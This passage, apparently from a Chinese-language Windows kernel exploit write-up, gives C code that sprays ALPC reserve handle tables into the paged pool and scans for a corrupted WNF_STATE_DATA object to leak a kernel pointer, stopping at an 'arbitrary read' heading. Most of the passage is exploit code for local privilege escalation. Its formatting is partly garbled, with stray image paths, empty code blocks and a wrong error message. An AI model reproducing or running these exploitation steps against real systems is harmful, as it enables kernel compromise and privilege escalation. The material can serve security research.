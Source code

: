 ```
```  
  
在 main 函数中：  
```
    #define NUM_ALPC 0x800
    HANDLE ports[NUM_ALPC];
 CONST UINT portsCount = NUM_ALPC;

    printf("[+] Creating ALPC ports\n");
    bRet = CreateALPCPorts(ports, portsCount);
    if (!bRet) {
        printf("[!] CreateALPCPorts failed\n");
        return -1;
    }
```  
  
为了喷射 ALPC 句柄表对象：  
```
    printf("[+] Allocating ALPC reserve handles\n");
    bRet = AllocateALPCReserveHandles(ports, portsCount, reservesCount - 1);
    if (!bRet) {
        printf("[!] CreateALPCPorts failed\n");
        return -1;
    }
```  
  
在调试器中，_ALPC_HANDLE_TABLE  
对象的结构如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFcicjbpmA0Dg8XREOhQbK7jFT0220bShSwLw9M2ASW9MsqJ0H99QoC7Y1g/640?wx_fmt=png&from=appmsg "")  
  
ALPC 句柄表  
  
此时，分页池中的内存布局如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFciczp5DF1jxR4rsAKxUt449AHUMfzia9xkMJG2vc8kpczD0t5Zu3J7NadQ/640?wx_fmt=png&from=appmsg "")  
  
内存布局 5  
  
为了定位被破坏的_WNF_STATE_DATA  
对象并获取内核指针泄露，我们可以执行以下操作：  
```
    WNF_CHANGE_STAMP stamp;
    char WNFOutput[0x2000];
    unsigned long WNFOutputSize = 0x1000;
    int CorruptedWNFidx = -1; 
    state = 0;
    printf("[+] Finding corrupted WNF_STATE_DATA object\n");
    for (int i = 1; i < NUM_WNFSTATEDATA; i = i + 2) {
        memset(WNFOutput, 0x0, sizeof(WNFOutput));
        WNFOutputSize = 0x1000;
        state = NtQueryWnfStateData(&StateNames[i], NULL, NULL, &stamp, WNFOutput, &WNFOutputSize);
        printf("    idx: %d, stamp: 0x%lx, state: 0x%lx\n", i, stamp, state);
        if (stamp == 0xcafe) { 
            printf("[+] Found corrupted object idx: %d, stamp: 0x%lx, state: 0x%lx\n", i, stamp, state);
            CorruptedWNFidx = i;
            ALPC_leak = *((unsigned long long *)(WNFOutput + 0xff0));
            printf("[+] KALPC_RESERVE leak: 0x%llx\n", ALPC_leak);
            break;
        }
    }
```  
## 任意读取  
  